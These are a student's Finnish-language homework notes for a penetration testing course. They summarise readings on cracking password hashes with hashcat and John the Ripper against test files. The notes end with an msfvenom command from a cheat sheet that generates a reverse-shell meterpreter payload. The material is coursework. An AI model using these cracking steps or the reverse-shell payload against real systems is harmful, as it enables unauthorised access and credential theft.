 # h4 Marraskuu2024!

Tehtävänanto: Karvinen, Tero. Tunkeutumistestaus. Julkaistu 10.5.2024. [https://terokarvinen.com/tunkeutumistestaus/](https://terokarvinen.com/tunkeutumistestaus/#h4-marraskuu2024)

## x) Lue/katso ja tiivistä

Karvinen, Tero. Cracking Passwords with Hashcat. 6.4.2022. [https://terokarvinen.com/2022/cracking-passwords-with-hashcat/](https://terokarvinen.com/2022/cracking-passwords-with-hashcat/)

- Asennetaan tarvittavat paketit ``sudo apt-get -y install hashid hashcat wget``
- Tehdään kansio hommille ``mkdir hashed`` ``cd hashed``
- Hankitaan sanakirjatiedosto esim. Rockyou `` wget https://github.com/danielmiessler/SecLists/raw/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz`` ``tar xf rockyou.txt.tar.gz``  ``rm rockyou.txt.tar.gz``
- Määritellään hash-tyyppi ``hashid -m 6b1628b016dff46e6fa35684be6acc96``
- Käytetään sanakirjaa ja selvitetään hashista salasana ja tallennetaan tulos tiedostoon solved ``hashcat -m 0 '6b1628b016dff46e6fa35684be6acc96' rockyou.txt -o solved``

Karvinen, Tero. Crack File Password With John. 9.2.2023. [https://terokarvinen.com/2023/crack-file-password-with-john/](https://terokarvinen.com/2023/crack-file-password-with-john/)

- Asennetaan tarvittavat paketit ``sudo apt-get -y install micro bash-completion git build-essential libssl-dev zlib1g zlib1g-dev libbz2-1.0 libbz2-dev atool zip wget ``
- Ladataan ja kootaan John the Ripperin jumbo-versio ``git clone --depth=1 https://github.com/openwall/john.git`` ``cd john/src/`` ``./configure`` -> configure-komennon outputista saa kokoamiskomennon,  ``cd ../run/`` näkyy kaikki suoritettavat tiedostot ja scriptit: valitaan sen mukaan, millainen tiedostomuoto
- Testitiedosto ladataan ``wget https://TeroKarvinen.com/2023/crack-file-password-with-john/tero.zip ``
- Otetaan tiedostosta hash ja siirretään se tiedostoon tero.zip.hash ``$HOME/john/run/zip2john tero.zip >tero.zip.hash``
- Hashia vastaan tehdään sanakirjahyökkäys ``$HOME/john/run/john tero.zip.hash``
- Puretaan tiedosto ``unzip tero.zip`` annetaan saatu salasanahttps://github.com/RonjaVee/Tunkeutumistestaus/settings



Santos et al 2017: Security Penetration Testing - The Art of Hacking Series LiveLessons: Lesson 6: Hacking User Credentials (8 videos, about 30 min)
[https://www.oreilly.com/videos/security-penetration-testing/9780134833989/9780134833989-sptt_00_06_00_00/](https://www.oreilly.com/videos/security-penetration-testing/9780134833989/9780134833989-sptt_00_06_00_00/)

- Salasanat tallennetaan palvelimille hash-funktioina tiedostoihin tai tietokantoihin
- Heikot salasanat ja oletussalasanat on helpointa murtaa 
-

Polop et al 2024: HackTricks: MSFVenom - CheatSheet [https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/msfvenom](https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/msfvenom)

- Listaa payloadit: ``msfvenom -l payloads``
- Reverse shell payload ``msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf``
